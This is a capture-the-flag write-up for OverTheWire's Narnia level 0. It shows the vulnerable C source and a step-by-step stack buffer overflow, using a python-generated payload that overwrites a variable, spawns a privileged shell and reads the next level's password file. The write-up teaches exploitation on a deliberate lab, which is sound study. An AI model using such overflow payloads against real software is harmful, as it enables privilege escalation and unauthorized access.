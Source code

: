 <h1>Narnia 0 &#x2192; Narnia 1 </h1>

<p>There is no information for this level, intentionally.</p>

<h1>Solution</h1>

```bash
user@host:~$ ssh narnia0@narnia.labs.overthewire.org -p 2226
narnia0
```

As we can read from the game description: `PASSWORDS for each level are stored in /etc/somegame_pass/`. Let us start there. After a few tries it is clear we can't get any information on the files containing the passwords for other levels.

```bash
narnia0@narnia:/etc/narnia_pass$ file narnia0
narnia0: ASCII text
narnia0@narnia:/etc/narnia_pass$ file narnia1
narnia1: regular file, no read permission
```

In the `/` directory a folder named `narnia` exists.

```bash
narnia0@narnia:/narnia$ ls
narnia0    narnia1.c  narnia3    narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4    narnia5.c  narnia7    narnia8.c
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: narnia0
buf: narnia0
val: 0x41414141
WAY OFF!!!!
```

The program `narnia0.c` goes (excluding the licensing information):

```c
narnia0@narnia:/narnia$ cat narnia0.c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

So no matter what we enter into the program, the buffer is never compared to anything. However, the buffer is 20 bytes long but we read 24 bytes into it. Since `scanf` reads the input and puts the memory on the stack, it might overwrite the `val` variable. This is what we wiull try to exploit.

`0xdeadbeef` is the hexadecimal representation of the 32-bit number 3735928559, so it is 4 bytes long. Let's see if we can feed 20 bytes into the program AND something like this number. Lert us start with investigating whether our intuition is right.

```
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 000000000000000000001234
val: 0x34333231
WAY OFF!!!!
```

This is an interesting result. The first 20 `0` characters are read into the buffer, and the last four bytes are read into `val`, but they are oriented backwards! So if we orient the characters backwards in the input it will be read forwards. This is exactly the buffer overflow that `scanf` causes.

Let's automate this a bit. We have `python` in our path:

```bash
narnia0@narnia:/narnia$ python --version
Python 2.7.13
```

We can hence create these strings without having to count the `0`'s by feeding a small program as a string and having it execute, piping the output into the `narnia0` program.

```bash
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "feebdaed"'
00000000000000000000feebdaed
```

Let's try with what we know so far!

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "feebdaed"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000feeb
val: 0x62656566
WAY OFF!!!!
```

We can see that feeding the string as ASCII text is not satisfactory. If we inspect the feedback, we can see that `val` is now equal to `0x62656566`, which is hexadecimal for the word `beef`. So in some way, only the last part of the word made it in. Let's try feeding in bytes instead

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "\xde\xad\xbe\xef"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ޭ��
val: 0xefbeadde
WAY OFF!!!!
```

We can almost read `deadbeef`! We just have to remember that the bytes are read pair-wise!

```
narnia0@narnia:/narnia$ python -c 'print "0"*20 + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
```

This works! But nothing seems to happen...

If we look at the source code, we can see that two things happen once we set `val` to `deadbeef`:

    1. setreuid90 sets the user id of the calling process (which is our terminal)
    2. A new shell is started by system(), but it exits as it does not get any input

So we just need to feed it more commands! That is simple by using parenthesis:

```
narnia0@narnia:/narnia$ (python -c 'print "0"*20 + "\xef\xbe\xad\xde"'; echo id;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
```

Now just read the password from the folder.

```
narnia0@narnia:/narnia$ (python -c 'print "0"*20 + "\xef\xbe\xad\xde"'; echo cat ../etc/narnia_pass/narnia1 ;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
efeidiedae
```

[narnia level 0](0.md)
	[narnia level 2](2.md)

